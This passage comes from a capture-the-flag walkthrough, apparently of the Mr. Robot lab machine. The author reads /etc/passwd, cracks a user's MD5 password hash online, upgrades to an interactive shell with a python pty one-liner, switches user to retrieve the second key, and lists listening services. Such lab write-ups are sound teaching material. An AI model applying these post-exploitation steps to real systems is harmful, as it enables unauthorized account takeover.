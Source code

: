```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
$ 
```
The user robot looked intersting:
```
$ cd /home/robot
$ ls
key-2-of-3.txt
password.raw-md5
$ less key-2-of-3.txt
key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
$ 
```
I used [www.md5online.org](https://www.md5online.org/md5-decrypt.html) to decrypt robot's password hash.

![robot_hash](/images/robot_decrypted_hash.png)

In order to change to robot user I had to launch an interactive shell, one solution was to use pty python module, python is installed by default on most linux distributions.

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su - robot              
su - robot
Password: abcdefghijklmnopqrstuvwxyz

$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$ cat ke*
cat ke*
822c73956184f694993bede3eb39f959
$ 
```

Second key found: `822c73956184f694993bede3eb39f959`

One step closer to pwn this box. At this point I started to pock arround. I found those services running:

```
$ netstat -lnp
netstat -lnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:2812          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
udp        0      0 0.0.0.0:13947           0.0.0.0:*                           -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -               
udp6       0      0 :::49019                :::*                                -               
```